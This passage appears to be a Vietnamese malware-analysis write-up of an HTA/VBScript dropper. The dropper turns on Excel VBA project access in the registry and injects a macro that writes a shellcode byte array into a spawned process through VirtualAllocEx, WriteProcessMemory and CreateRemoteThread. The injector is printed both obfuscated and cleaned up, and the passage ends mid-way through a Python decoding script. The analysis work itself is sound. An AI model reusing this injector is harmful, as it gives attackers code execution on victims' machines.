Chr(45)&""67""&Chr(44)&""48""&Chr(44)&Chr(45)&""104""&Chr(44)&Chr(45)&""65""&Chr(44)&""61""&Chr(44)&Chr(45)&""55""&Chr(44)&""89""&Chr(44)&""42""&Chr(44)&""61""&Chr(44)&Chr(45)&""93""&Chr(44)&""93""&Chr(44)&Chr(45)&""4""&Chr(44)& _ 
""106""&Chr(44)&""91""&Chr(44)&""92""&Chr(44)&Chr(45)&""39""&Chr(44)&""92""&Chr(44)&Chr(45)&""60""&Chr(44)&Chr(45)&""97""&Chr(44)&""12""&Chr(44)&Chr(45)&""33""&Chr(44)&""3""&Chr(44)&""95""&Chr(44)&Chr(45)&""47""&Chr(44)&Chr(45)& _ 
""23""&Chr(44)&""120""&Chr(44)&""86""&Chr(44)&""71""&Chr(44)&""85""&Chr(44)&""23""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""121""&Chr(44)&""85""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""51""&Chr(44)&""85""& _ 
Chr(44)&Chr(45)&""113""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""75""&Chr(44)&""6""&Chr(44)&Chr(45)&""86""&Chr(44)&Chr(45)&""71""&Chr(44)&""99""&Chr(44)&""59""&Chr(44)&""103""&Chr(44)&""44""&Chr(44)&Chr(45)&""116""&Chr(44)&""109""& _ 
Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""28""&Chr(44)&Chr(45)&""109""&Chr(44)&""2""&Chr(44)&Chr(45)&""49""&Chr(44)&Chr(45)&""86""&Chr(44)&""108""&Chr(44)&""97""&Chr(44)&""83""&Chr(44)&Chr(45)&""84""&Chr(44)& _ 
Chr(45)&""110""&Chr(44)&Chr(45)&""9""&Chr(44)&""124""&Chr(44)&""21""&Chr(44)&Chr(45)&""6""&Chr(44)&""7""&Chr(44)&""61""&Chr(44)&Chr(45)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&""109""&Chr(44)&Chr(45)&""67""&Chr(44)&Chr(45)&""11""& _ 
Chr(44)&Chr(45)&""110""&Chr(44)&""122""&Chr(44)&Chr(45)&""110""&Chr(44)&Chr(45)&""6""&Chr(44)&""82""&Chr(44)&Chr(45)&""126""&Chr(44)&""57""&Chr(44)&""83""&Chr(44)&Chr(45)&""6""&Chr(44)&""9""&Chr(44)&Chr(45)&""84""&Chr(44)&""17""& _ 
Chr(44)&Chr(45)&""101""&Chr(44)&""14""&Chr(44)&Chr(45)&""27""&Chr(44)&Chr(45)&""12""&Chr(44)&""5""&Chr(44)&""14""&Chr(44)&""10""&Chr(44)&""45""&Chr(44)&Chr(45)&""74""&Chr(44)&""117""&Chr(44)&""95""&Chr(44)&Chr(45)&""46""&Chr(44)& _ 
""55""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""119""&Chr(44)&Chr(45)&""73""&Chr(44)&""56""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""55""&Chr(44)&""5""&Chr(44)&""92""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)& _ 
""65""&Chr(44)&""72""&Chr(44)&""92""&Chr(44)&Chr(45)&""85""&Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""1""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""102""&Chr(44)&""90""&Chr(44)&Chr(45)&""1""&Chr(44)&""86""&Chr(44)&Chr(45)&""36""&Chr(44)& _ 
""78""&Chr(41)&Chr(10)&""    If L""&""en""&Chr(40)&""Environ""&Chr(40)&Chr(34)& _
""ProgramW""&""6432""&Chr(34)&Chr(41)&Chr(41)&"" ""&Chr(62)&"" 0 Then""&Chr(10)&""        ""&""sProc ""&Chr(61)&"" Environ""&Chr(40)&Chr(34)&""windir""&Chr(34)&Chr(41)&"" ""&Chr(38)&"" ""&Chr(34)&Chr(92)&Chr(92)&""SysWOW64""& _
Chr(92)&Chr(92)&""rundll32""&Chr(46)&""exe""&Chr(34)&Chr(10)&""    Else""&Chr(10)&""        ""&""sProc ""&Chr(61)&"" Environ""&Chr(40)&Chr(34)&""windir""&Chr(34)&Chr(41)&"" ""&Chr(38)&"" ""&Chr(34)&Chr(92)&Chr(92)&""System32""& _
Chr(92)&Chr(92)&""rundll32""&Chr(46)&""exe""&Chr(34)&Chr(10)&""    End ""&""If""&Chr(10)&Chr(10)&""    res ""&Chr(61)&"" RunStuf""&""f""&Chr(40)&""sNull""&Chr(44)&"" sProc""&Chr(44)&"" ByVal 0""&Chr(38)&Chr(44)&"" ByVal 0""& _
Chr(38)&Chr(44)&"" ByVal 1""&Chr(38)&Chr(44)&"" ByVal 4""&Chr(38)&Chr(44)&"" ByVal 0""&Chr(38)&Chr(44)&"" sNull""&Chr(44)&"" sInfo""&Chr(44)&"" pInfo""&Chr(41)&Chr(10)&Chr(10)&""    rwxp""&""age ""&Chr(61)&"" AllocSt""& _
""uff""&Chr(40)&""pInfo""&Chr(46)&""hProcess""&Chr(44)&"" 0""&Chr(44)&"" UBound""&Chr(40)&""myArray""&Chr(41)&Chr(44)&"" ""&Chr(38)&""H1000""&Chr(44)&"" ""&Chr(38)&""H40""&Chr(41)&Chr(10)&""    For ""&""offset ""&Chr(61)&"" LBound""& _
Chr(40)&""myArray""&Chr(41)&"" To UBou""&""nd""&Chr(40)&""myArray""&Chr(41)&Chr(10)&""        ""&""myByte ""&Chr(61)&"" myArray""&Chr(40)&""offset""&Chr(41)&Chr(10)&""        ""&""res ""&Chr(61)&"" WriteSt""&""uff""&Chr(40)&""pInfo""& _
Chr(46)&""hProcess""&Chr(44)&"" rwxpage""&"" ""&Chr(43)&"" offset""&Chr(44)&"" myByte""&Chr(44)&"" 1""&Chr(44)&"" ByVal 0""&Chr(38)&Chr(41)&Chr(10)&""    Next""&"" offset""&Chr(10)&""    res ""&Chr(61)&"" CreateS""&""tuff""&Chr(40)& _
""pInfo""&Chr(46)&""hProcess""&Chr(44)&"" 0""&Chr(44)&"" 0""&Chr(44)&"" rwxpage""&Chr(44)&"" 0""&Chr(44)&"" 0""&Chr(44)&"" 0""&Chr(41)&Chr(10)&""End Sub""&Chr(10)&""Sub Auto""&""Open""&Chr(40)&Chr(41)&Chr(10)&""    Auto""&""_Open""& _
Chr(10)&""End Sub""&Chr(10)&""Sub Work""&""book_Ope""&""n""&Chr(40)&Chr(41)&Chr(10)&""    Auto""&""_Open""&Chr(10)&""End Sub""&Chr(10)
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run ""Auto_Open""
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = """" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, ""REG_DWORD""
end if
self.close
</script></head></html>"

```
- Có vẻ mã bị obfuscation, mình sẽ sử dụng chatgpt để sửa lại

```
<html>
<head>
<script language="vbscript">
    Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

    Set objExcel = CreateObject("Excel.Application")
    objExcel.Visible = False

    Set WshShell = CreateObject("Wscript.Shell")

    ' Hàm kiểm tra tồn tại của khoá Registry
    function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
    end function

    ' Đường dẫn Registry kiểm soát AccessVBOM
    RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

    ' Đọc giá trị hiện tại của AccessVBOM
    if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
    else
        action = ""
    end if

    ' Thay đổi giá trị AccessVBOM để tấn công
    WshShell.RegWrite RegPath, 1, "REG_DWORD"

    ' Tạo Workbook và thêm module VBA với mã nguy hiểm
    Set objWorkbook = objExcel.Workbooks.Add()
    Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)

    ' Thêm mã VBA vào module
    xlmodule.CodeModule.AddFromString _
    "Private Type PROCESS_INFORMATION" & vbCrLf & _
    "    hProcess As Long" & vbCrLf & _
    "    hThread As Long" & vbCrLf & _
    "    dwProcessId As Long" & vbCrLf & _
    "    dwThreadId As Long" & vbCrLf & _
    "End Type" & vbCrLf & vbCrLf & _
    "Private Type STARTUPINFO" & vbCrLf & _
    "    cb As Long" & vbCrLf & _
    "    lpReserved As String" & vbCrLf & _
    "    lpDesktop As String" & vbCrLf & _
    "    lpTitle As String" & vbCrLf & _
    "    dwX As Long" & vbCrLf & _
    "    dwY As Long" & vbCrLf & _
    "    dwXSize As Long" & vbCrLf & _
    "    dwYSize As Long" & vbCrLf & _
    "    dwXCountChars As Long" & vbCrLf & _
    "    dwYCountChars As Long" & vbCrLf & _
    "    dwFillAttribute As Long" & vbCrLf & _
    "    dwFlags As Long" & vbCrLf & _
    "    wShowWindow As Integer" & vbCrLf & _
    "    cbReserved2 As Integer" & vbCrLf & _
    "    lpReserved2 As Long" & vbCrLf & _
    "    hStdInput As Long" & vbCrLf & _
    "    hStdOutput As Long" & vbCrLf & _
    "    hStdError As Long" & vbCrLf & _
    "End Type" & vbCrLf & vbCrLf & _
    "#If VBA7 Then" & vbCrLf & _
    "    Private Declare PtrSafe Function CreateStuff Lib ""kernel32"" Alias ""CreateRemoteThread""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr," & vbCrLf & _
    "         ByVal lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr" & vbCrLf & _
    "    Private Declare PtrSafe Function AllocStuff Lib ""kernel32"" Alias ""VirtualAllocEx""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr" & vbCrLf & _
    "    Private Declare PtrSafe Function WriteStuff Lib ""kernel32"" Alias ""WriteProcessMemory""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr" & vbCrLf & _
    "    Private Declare PtrSafe Function RunStuff Lib ""kernel32"" Alias ""CreateProcessA""" & vbCrLf & _
    "        (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any," & vbCrLf & _
    "         lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long," & vbCrLf & _
    "         lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO," & vbCrLf & _
    "         lpProcessInformation As PROCESS_INFORMATION) As Long" & vbCrLf & _
    "#Else" & vbCrLf & _
    "    Private Declare Function CreateStuff Lib ""kernel32"" Alias ""CreateRemoteThread""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long," & vbCrLf & _
    "         ByVal lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long" & vbCrLf & _
    "    Private Declare Function AllocStuff Lib ""kernel32"" Alias ""VirtualAllocEx""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long" & vbCrLf & _
    "    Private Declare Function WriteStuff Lib ""kernel32"" Alias ""WriteProcessMemory""" & vbCrLf & _
    "        (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long" & vbCrLf & _
    "    Private Declare Function RunStuff Lib ""kernel32"" Alias ""CreateProcessA""" & vbCrLf & _
    "        (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any," & vbCrLf & _
    "         lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long," & vbCrLf & _
    "         lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO," & vbCrLf & _
    "         lpProcessInformation As PROCESS_INFORMATION) As Long" & vbCrLf & _
    "#End If" & vbCrLf & vbCrLf & _
    "Sub Auto_Open()" & vbCrLf & _
    "    Dim myByte As Long, myArray As Variant, offset As Long" & vbCrLf & _
    "    Dim pInfo As PROCESS_INFORMATION, sInfo As STARTUPINFO" & vbCrLf & _
    "    Dim sNull As String, sProc As String" & vbCrLf & vbCrLf & _
    "#If VBA7 Then" & vbCrLf & _
    "    Dim rwxpage As LongPtr, res As LongPtr" & vbCrLf & _
    "#Else" & vbCrLf & _
    "    Dim rwxpage As Long, res As Long" & vbCrLf & _
    "#End If" & vbCrLf & vbCrLf & _
    "    ' Chuỗi dữ liệu mã hoá sẽ được giải mã và thực thi" & vbCrLf & _
    "    myArray = Array(-35, -63, -65, 32, 86, 66, 126, -39, 116, 36, -12, 91, 49, -55, -79, 98, 49, 123, 24, 3, 123, 24, -125, -61, 36, -76, -73, -126, -52, 56, 123, 12, -37, -79, 98, 61, -37, -90, -21, 109, -21, -83, -66, -127, -128, -32, 42, 18, -28, 44, 92, -109, 67, 11, 83, 36, -1, 111, -14, -90, 2, -68, -44, -105, -52, -79, 21, -48, 49, 59, 71, -119, 62, -18, 120, -66, 11, 51, -14, -116, -102, 51, -25, 68, -100, 18, -74, -122)"
        ' Tạo và chạy tiến trình với dữ liệu đã giải mã
    sProc = "C:\Windows\System32\notepad.exe"
    sNull = vbNullString
    sInfo.cb = Len(sInfo)
    Call RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, 1, &H4, ByVal 0&, sNull, sInfo, pInfo)
    
    offset = 0
    For Each myByte In myArray
        Call WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, res)
        offset = offset + 1
    Next
    
    Call CreateStuff(pInfo.hProcess, ByVal 0&, 0, rwxpage, 0, 0, res)
End Sub"
    
    ' Lưu workbook chứa mã VBA và mở nó
    objWorkbook.SaveAs "C:\path\to\malicious.xlsm", 52  ' Định dạng file Excel với macro
    objWorkbook.Close False
    objExcel.Quit

    ' Khôi phục lại giá trị AccessVBOM
    If action = "" Then
        WshShell.RegDelete RegPath
    Else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
    End If
    
    MsgBox "Done"
    Set objExcel = Nothing
    Set WshShell = Nothing
</script>
</head>
<body>
</body>
</html>

```
```
Đây là một đoạn mã VBA trong một file Excel, thực hiện các bước sau:

Khởi tạo các biến và thiết lập một số giá trị.
Tạo và chạy một tiến trình (notepad.exe) với mã độc đã giải mã.
Ghi mã độc vào bộ nhớ của tiến trình đó.
Lưu và mở file Excel chứa mã VBA độc hại.
Khôi phục lại cài đặt registry về giá trị ban đầu.
Hiển thị thông báo "Done".
```
- Có thể thấy mảng myArray được decode và thực thi, mình sử dụng cyberchef để decode nó
- 
- Sau khi decode nó được ghi vào file mã độc, cho thấy rằng nó là 1 shell code
- Lưu về và sử dụng công cụ scdbg để debug
- Tuy nhiên mình debug không được, nên đã xem lại mảng array thì thấy dữ liệu chatgpt in ra sai 
<details>
<summary>
Full mảng myArray bị obfuscation
</summary>

```

myAr""&""ray""&Chr(61)&""Array""&Chr(40)&Chr(45)&""35""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""65""&Chr(44)&""32""&Chr(44)&""86""&Chr(44)&""66""&Chr(44)&""126""&Chr(44)&Chr(45)&""39""&Chr(44)&""116""&Chr(44)&""36""&Chr(44)&_Chr(45)&""12""&Chr(44)&""91""&Chr(44)&""49""&Chr(44)&Chr(45)&""55""&Chr(44)&Chr(45)&""79""&Chr(44)&""98""&Chr(44)&""49""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&""3""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&Chr(45)&""125""&Chr(44)&_Chr(45)&""61""&Chr(44)&""36""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""70""&Chr(44)&""56""&Chr(44)&""123""&Chr(44)&""12""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&_""79""&Chr(44)&Chr(45)&""98""&Chr(44)&""61""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""90""&Chr(44)&Chr(45)&""21""&Chr(44)&""109""&Chr(44)&Chr(45)&""21""&Chr(44)&Chr(45)&""83""&Chr(44)&Chr(45)&""66""&Chr(44)&Chr(45)&""127""&Chr(44)&_Chr(45)&""128""&Chr(44)&Chr(45)&""32""&Chr(44)&""42""&Chr(44)&""18""&Chr(44)&Chr(45)&""28""&Chr(44)&""44""&Chr(44)&""92""&Chr(44)&Chr(45)&""109""&Chr(44)&""67""&Chr(44)&""11""&Chr(44)&""83""&Chr(44)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)&_""111""&Chr(44)&Chr(45)&""14""&Chr(44)&Chr(45)&""90""&Chr(44)&""2""&Chr(44)&Chr(45)&""68""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""79""&Chr(44)&""21""&Chr(44)&Chr(45)&""48""&Chr(44)&_""49""&Chr(44)&""59""&Chr(44)&""71""&Chr(44)&Chr(45)&""119""&Chr(44)&""62""&Chr(44)&Chr(45)&""18""&Chr(44)&""120""&Chr(44)&Chr(45)&""66""&Chr(44)&""11""&Chr(44)&""51""&Chr(44)&Chr(45)&""14""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&_""102""&Chr(44)&""51""&Chr(44)&Chr(45)&""25""&Chr(44)&""68""&Chr(44)&Chr(45)&""100""&Chr(44)&""18""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""33""&Chr(44)&Chr(45)&""57""&Chr(44)&Chr(45)&""76""&Chr(44)&""56""&Chr(44)&""12""&Chr(44)&_""124""&Chr(44)&Chr(45)&""3""&Chr(44)&""34""&Chr(44)&""81""&Chr(44)&Chr(45)&""71""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""39""&Chr(44)&Chr(45)&""95""&Chr(44)&""53""&Chr(44)&""70""&Chr(44)&""8""&Chr(44)&Chr(45)&""8""&Chr(44)&Chr(45)&_""74""&Chr(44)&Chr(45)&""27""&Chr(44)&""117""&Chr(44)&""53""&Chr(44)&""69""&Chr(44)&Chr(45)&""9""&Chr(44)&Chr(45)&""78""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""54""&Chr(44)&""2""&_Chr(44)&""74""&Chr(44)&Chr(45)&""107""&Chr(44)&""8""&Chr(44)&""121""&Chr(44)&Chr(45)&""112""&Chr(44)&""16""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""39""&Chr(44)&""83""&Chr(44)&Chr(45)&""126""&Chr(44)&""119""&Chr(44)&Chr(45)&_""40""&Chr(44)&Chr(45)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""13""&Chr(44)&Chr(45)&""42""&Chr(44)&""125""&Chr(44)&""17""&Chr(44)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""10""&Chr(44)&Chr(45)&""41""&_Chr(44)&""6""&Chr(44)&""8""&Chr(44)&Chr(45)&""7""&Chr(44)&""55""&Chr(44)&Chr(45)&""113""&Chr(44)&""74""&Chr(44)&Chr(45)&""34""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""44""&Chr(44)&""9""&Chr(44)&""127""&Chr(44)&Chr(45)&""123""&_Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""43""&Chr(44)&""27""&Chr(44)&Chr(45)&""96""&Chr(44)&""36""&Chr(44)&Chr(45)&""99""&Chr(44)&Chr(45)&""79""&Chr(44)&Chr(45)&""75""&Chr(44)&""84""&_Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""35""&Chr(44)&""122""&Chr(44)&""85""&Chr(44)&Chr(45)&""1""&Chr(44)&""29""&Chr(44)&""21""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""116""&Chr(44)&""47""&Chr(44)&Chr(45)&""70""&Chr(44)&""68""&_Chr(44)&""27""&Chr(44)&""3""&Chr(44)&""51""&Chr(44)&""67""&Chr(44)&Chr(45)&""36""&Chr(44)&""100""&Chr(44)&""110""&Chr(44)&""51""&Chr(44)&""114""&Chr(44)&Chr(45)&""101""&Chr(44)&Chr(45)&""111""&Chr(44)&""68""&Chr(44)&""90""&Chr(44)&_""95""&Chr(44)&Chr(45)&""59""&Chr(44)&""20""&Chr(44)&Chr(45)&""12""&Chr(44)&""118""&Chr(44)&""102""&Chr(44)&Chr(45)&""1""&Chr(44)&""4""&Chr(44)&""119""&Chr(44)&Chr(45)&""77""&Chr(44)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""41""&Chr(44)&_""108""&Chr(44)&""17""&Chr(44)&""5""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""7""&Chr(44)&""79""&Chr(44)&""24""&Chr(44)&""2""&Chr(44)&""25""&Chr(44)&""112""&Chr(44)&Chr(45)&""13""&Chr(44)&""43""&Chr(44)&""50""&_Chr(44)&Chr(45)&""88""&Chr(44)&Chr(45)&""5""&Chr(44)&""83""&Chr(44)&Chr(45)&""61""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""115""&Chr(44)&""58""&Chr(44)&Chr(45)&""81""&Chr(44)&""49""&Chr(44)&""21""&Chr(44)&Chr(45)&""46""&Chr(44)&_""66""&Chr(44)&""43""&Chr(44)&Chr(45)&""68""&Chr(44)&""66""&Chr(44)&Chr(45)&""77""&Chr(44)&Chr(45)&""59""&Chr(44)&""81""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""125""&Chr(44)&""77""&Chr(44)&Chr(45)&""17""&Chr(44)&Chr(45)&""79""&_Chr(44)&""116""&Chr(44)&""94""&Chr(44)&Chr(45)&""80""&Chr(44)&""2""&Chr(44)&""72""&Chr(44)&Chr(45)&""22""&Chr(44)&""17""&Chr(44)&Chr(45)&""7""&Chr(44)&Chr(45)&""58""&Chr(44)&""33""&Chr(44)&Chr(45)&""14""&Chr(44)&""113""&Chr(44)&_""127""&Chr(44)&""119""&Chr(44)&""127""&Chr(44)&""26""&Chr(44)&""76""&Chr(44)&""37""&Chr(44)&""2""&Chr(44)&Chr(45)&""38""&Chr(44)&Chr(45)&""38""&Chr(44)&""96""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""102""&_Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""124""&Chr(44)&Chr(45)&""37""&Chr(44)&""110""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""112""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""26""&Chr(44)&""97""&Chr(44)&_Chr(45)&""91""&Chr(44)&""42""&Chr(44)&""76""&Chr(44)&Chr(45)&""20""&Chr(44)&""67""&Chr(44)&""70""&Chr(44)&Chr(45)&""94""&Chr(44)&Chr(45)&""72""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)&""91""&Chr(44)&Chr(45)&""31""&_Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""98""&Chr(44)&Chr(45)&""92""&Chr(44)&""60""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""95""&Chr(44)&""47""&Chr(44)&Chr(45)&""76""&Chr(44)&""34""&Chr(44)&""111""&Chr(44)&Chr(45)&""40""&Chr(44)&_Chr(45)&""67""&Chr(44)&""48""&Chr(44)&Chr(45)&""104""&Chr(44)&Chr(45)&""65""&Chr(44)&""61""&Chr(44)&Chr(45)&""55""&Chr(44)&""89""&Chr(44)&""42""&Chr(44)&""61""&Chr(44)&Chr(45)&""93""&Chr(44)&""93""&Chr(44)&Chr(45)&""4""&Chr(44)&_""106""&Chr(44)&""91""&Chr(44)&""92""&Chr(44)&Chr(45)&""39""&Chr(44)&""92""&Chr(44)&Chr(45)&""60""&Chr(44)&Chr(45)&""97""&Chr(44)&""12""&Chr(44)&Chr(45)&""33""&Chr(44)&""3""&Chr(44)&""95""&Chr(44)&Chr(45)&""47""&Chr(44)&Chr(45)&_""23""&Chr(44)&""120""&Chr(44)&""86""&Chr(44)&""71""&Chr(44)&""85""&Chr(44)&""23""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""121""&Chr(44)&""85""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""51""&Chr(44)&""85""&_Chr(44)&Chr(45)&""113""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""75""&Chr(44)&""6""&Chr(44)&Chr(45)&""86""&Chr(44)&Chr(45)&""71""&Chr(44)&""99""&Chr(44)&""59""&Chr(44)&""103""&Chr(44)&""44""&Chr(44)&Chr(45)&""116""&Chr(44)&""109""&_Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""28""&Chr(44)&Chr(45)&""109""&Chr(44)&""2""&Chr(44)&Chr(45)&""49""&Chr(44)&Chr(45)&""86""&Chr(44)&""108""&Chr(44)&""97""&Chr(44)&""83""&Chr(44)&Chr(45)&""84""&Chr(44)&_Chr(45)&""110""&Chr(44)&Chr(45)&""9""&Chr(44)&""124""&Chr(44)&""21""&Chr(44)&Chr(45)&""6""&Chr(44)&""7""&Chr(44)&""61""&Chr(44)&Chr(45)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&""109""&Chr(44)&Chr(45)&""67""&Chr(44)&Chr(45)&""11""&_Chr(44)&Chr(45)&""110""&Chr(44)&""122""&Chr(44)&Chr(45)&""110""&Chr(44)&Chr(45)&""6""&Chr(44)&""82""&Chr(44)&Chr(45)&""126""&Chr(44)&""57""&Chr(44)&""83""&Chr(44)&Chr(45)&""6""&Chr(44)&""9""&Chr(44)&Chr(45)&""84""&Chr(44)&""17""&_Chr(44)&Chr(45)&""101""&Chr(44)&""14""&Chr(44)&Chr(45)&""27""&Chr(44)&Chr(45)&""12""&Chr(44)&""5""&Chr(44)&""14""&Chr(44)&""10""&Chr(44)&""45""&Chr(44)&Chr(45)&""74""&Chr(44)&""117""&Chr(44)&""95""&Chr(44)&Chr(45)&""46""&Chr(44)&_""55""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""119""&Chr(44)&Chr(45)&""73""&Chr(44)&""56""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""55""&Chr(44)&""5""&Chr(44)&""92""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&_""65""&Chr(44)&""72""&Chr(44)&""92""&Chr(44)&Chr(45)&""85""&Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""1""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""102""&Chr(44)&""90""&Chr(44)&Chr(45)&""1""&Chr(44)&""86""&Chr(44)&Chr(45)&""36""&Chr(44)&_""78""&Chr(41)&Chr(10)&""

```
</details>

- Viết 1 script thay thế chuỗi, sau đó đưa vào cyberchef decode. Đây là script
```
import re
array = r'myAr""&""ray""&Chr(61)&""Array""&Chr(40)&Chr(45)&""35""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""65""&Chr(44)&""32""&Chr(44)&""86""&Chr(44)&""66""&Chr(44)&""126""&Chr(44)&Chr(45)&""39""&Chr(44)&""116""&Chr(44)&""36""&Chr(44)&_Chr(45)&""12""&Chr(44)&""91""&Chr(44)&""49""&Chr(44)&Chr(45)&""55""&Chr(44)&Chr(45)&""79""&Chr(44)&""98""&Chr(44)&""49""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&""3""&Chr(44)&""123""&Chr(44)&""24""&Chr(44)&Chr(45)&""125""&Chr(44)&_Chr(45)&""61""&Chr(44)&""36""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""70""&Chr(44)&""56""&Chr(44)&""123""&Chr(44)&""12""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&_""79""&Chr(44)&Chr(45)&""98""&Chr(44)&""61""&Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""90""&Chr(44)&Chr(45)&""21""&Chr(44)&""109""&Chr(44)&Chr(45)&""21""&Chr(44)&Chr(45)&""83""&Chr(44)&Chr(45)&""66""&Chr(44)&Chr(45)&""127""&Chr(44)&_Chr(45)&""128""&Chr(44)&Chr(45)&""32""&Chr(44)&""42""&Chr(44)&""18""&Chr(44)&Chr(45)&""28""&Chr(44)&""44""&Chr(44)&""92""&Chr(44)&Chr(45)&""109""&Chr(44)&""67""&Chr(44)&""11""&Chr(44)&""83""&Chr(44)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)&_""111""&Chr(44)&Chr(45)&""14""&Chr(44)&Chr(45)&""90""&Chr(44)&""2""&Chr(44)&Chr(45)&""68""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""52""&Chr(44)&Chr(45)&""79""&Chr(44)&""21""&Chr(44)&Chr(45)&""48""&Chr(44)&_""49""&Chr(44)&""59""&Chr(44)&""71""&Chr(44)&Chr(45)&""119""&Chr(44)&""62""&Chr(44)&Chr(45)&""18""&Chr(44)&""120""&Chr(44)&Chr(45)&""66""&Chr(44)&""11""&Chr(44)&""51""&Chr(44